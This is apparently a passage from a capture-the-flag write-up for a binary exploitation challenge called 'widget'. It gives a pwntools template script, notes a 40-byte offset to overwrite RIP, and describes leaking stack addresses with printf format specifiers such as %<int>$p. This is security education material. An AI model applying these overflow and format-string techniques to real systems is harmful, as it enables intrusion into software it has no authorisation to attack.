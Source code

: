 ### Leaking Addresses With printf

We first create a template to work with the binary using pwntools.

```python
#!/usr/bin/env python3

from pwn import *
import subprocess

def amount(m):
    global p
    p.sendlineafter(b'Amount: ',m)

def content(m):
    global p
    p.sendlineafter(b'Contents: ',m)

elf = context.binary = ELF("./widget_patched",checksec=False)
url,port = "challs.actf.co", 31320

if args.REMOTE:
    p = remote(url,port)
else:
    p = elf.process(aslr=False)

if args.GDB:
    gdb.attach(p)
    
payload = "test"

amount(str(len(payload)).encode()) # amount should always be equal to len(content)
content(payload)

p.interactive()
p.close()
```

Using `gdb`, we can find that the offset to overwrite RIP is **40** bytes, so our RBP value is at **32** bytes (8 bytes for 64-bit binary).

We first need to find a helpful address to leak.\
We can do this using `gdb`, by setting a breakpoint at the `ret` of main and sending the content as %\<int>$p (where \<int> is a positive integer).

For the initial leak, we want to find any value that we can distinguish on the stack, so we try different \<int> until we get a suitable value.

<figure><img src="../../../.gitbook/assets/image (10) (4).png" alt=""><figcaption><p>break at ret</p></figcaption></figure>
